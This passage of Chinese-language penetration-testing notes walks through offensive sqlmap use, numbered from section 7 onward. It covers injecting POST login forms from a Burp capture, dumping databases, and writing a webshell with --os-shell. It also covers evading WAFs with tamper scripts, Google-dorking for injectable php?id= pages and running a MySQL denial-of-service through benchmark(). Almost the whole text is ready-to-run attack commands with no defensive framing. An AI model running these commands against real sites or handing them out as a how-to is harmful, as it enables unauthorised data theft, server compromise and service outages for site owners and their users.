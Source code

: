 #### 7.POST登录框注入

* burpsuite抓包右键保存到\Python2\sqlmap中
* 测试能否注入`sqlmap.py -r 1.txt -p user`（-r：让sqlmap加载post请求，-p：指定注入用的参数）
* 爆库 `sqlmap.py -r 1.txt --current-db`

***

* 自动搜索表单：`sqlmap.py -u url --form`
* 指定一个参数：`sqlmap.py -u url --data "name=1&pass=1"`

#### 8.交互式写shell及命令执行

* 测试注入点：`sqlmap.py -u url -p id`
* 利用SQLmap写webshell:`sqlmap.py -u url --os-shell` 输入脚本语言，输入网站绝对路径

#### 9.绕过WAF防火墙

* 利用tamper脚本绕过过滤: `sqlmap.py -u url --dbs --batch --flush-session --tamper=equaltolike.py,space2comment.py,randomcase.py`

#### 10.sqlmap模板使用，编写

* 尝试注入 and 1=1被拦截
* 利用%0a尝试绕过，发现可以
* 编写tamper模板，利用sqlmap跑库(c:\python27\sqlmap\tamper)
* 利用sqlmap跑库`sqlmap.py -u "url" --dbs --batch --tamper=equaltolike.py, space2mssqlhash.py, randomcase.py, space2hassh.py, base64encode.py, charencode.py`

#### 11.利用sqlmap来google搜索

* 查找页面：`sqlmap.py -g inurl:php?id=`

#### 12.sqlmpa进行Mysql DOS攻击

* 获得shell：`sqlmap.py -u url --sql-shell`
* 进行攻击：`select benchmark(9999999999,0*70726f63409284209)`
